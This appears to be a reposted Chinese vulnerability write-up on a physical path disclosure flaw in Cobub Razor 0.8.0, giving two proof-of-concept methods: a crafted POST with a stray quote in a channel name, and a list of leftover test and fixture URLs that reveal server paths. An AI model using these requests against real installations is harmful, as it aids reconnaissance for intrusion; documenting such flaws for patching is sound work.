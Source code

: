 # （CVE-2018-8056/CVE-2018-8770）Cobub Razor 0.8.0 存在物理路径泄露漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2849](https://www.zhihuifly.com/t/topic/2849)

# （CVE-2018-8056/CVE-2018-8770）Cobub Razor 0.8.0 存在物理路径泄露漏洞

## 一、漏洞简介

## 二、漏洞影响

Cobub Razor 0.8.0

## 三、复现过程

### POC

> 方法一：

```
URL: http://localhost/export.php
HTTP Method: GET
URL: http://localhost/index.php?/manage/channel/addchannel
HTTP Method: POST
Data: channel_name=test"&platform=1 
```

> 方法二：
> Cobub Razor 0.8.0存在物理路径泄露漏洞，当访问特定url时，系统会显示物理路径信息。Cobub Razor是一个在github上开源的系统。

```
HTTP Method: GET
http://localhost/tests/generate.php
http://localhost/tests/controllers/getConfigTest.php
http://localhost/tests/controllers/getUpdateTest.php
http://localhost/tests/controllers/postclientdataTest.php
http://localhost/tests/controllers/posterrorTest.php
http://localhost/tests/controllers/posteventTest.php
http://localhost/tests/controllers/posttagTest.php
http://localhost/tests/controllers/postusinglogTest.php
http://localhost/tests/fixtures/Controller_fixt.php
http://localhost/tests/fixtures/Controller_fixt2.php
http://localhost/tests/fixtures/view_fixt2.php
http://localhost/tests/libs/ipTest.php
http://localhost/tests/models/commonDbfix.php 
```